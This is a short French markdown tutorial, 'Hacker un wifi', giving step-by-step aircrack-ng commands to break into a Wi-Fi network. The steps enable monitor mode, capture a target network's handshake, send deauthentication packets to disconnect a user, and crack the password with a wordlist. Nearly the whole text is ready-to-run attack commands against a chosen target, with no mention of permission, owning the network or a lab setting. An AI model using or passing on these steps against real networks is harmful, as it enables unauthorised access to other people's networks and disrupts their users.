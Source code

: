 # Hacker un wifi

## pré requis :
Aircrack-ng :
    
- installation : `sudo apt-get install -y aircrack-ng`

## tuto :

1. choisir l'interface : 
   - `ifconfig`
  
2. Lancer le mode monitor sur l'interface concernée :
   - `sudo airmon-ng start [INTERFACE]`

3. Utiliser airodump pour scanner tous les reseaux aux alentours :
    -  `sudo airodump-ng [INTERFACEmon]`

4. Scanner le réseaux et mettre le handshake trouvé dans un fichier :
    
   - `sudo airodump-ng --bssid [BSSID] -c [CHANNEL] [INTERFACE] --write handshake/handshake.cap`\
    **help :** --bssid = bssid du wifi cible | -c = channel du wifi [1-13] | 
    --write = stocke les information capturé dans la location donnée
5. Envoyer des paquets de désauthentification à un utilisateur trouvé dans le handshake :
   - `sudo aireplay-ng -0 100 -a [BSSID] [INTERFACE]`\
   **help :** -o = nombre de pacquet de désauthentification a envoyer | -a = Bssid du wifi cible

6. Cracker le handshake :
   - `sudo aircrack-ng handshake/handshake.cap -w [WORDLIST] `\
   **help :** -w = location de la wordlist

7. enlever le mode moniteur et rallumer le service : 
   - `sudo airmon-ng stop wlan0mon`
   - ` sudo service network-manager restart`
  

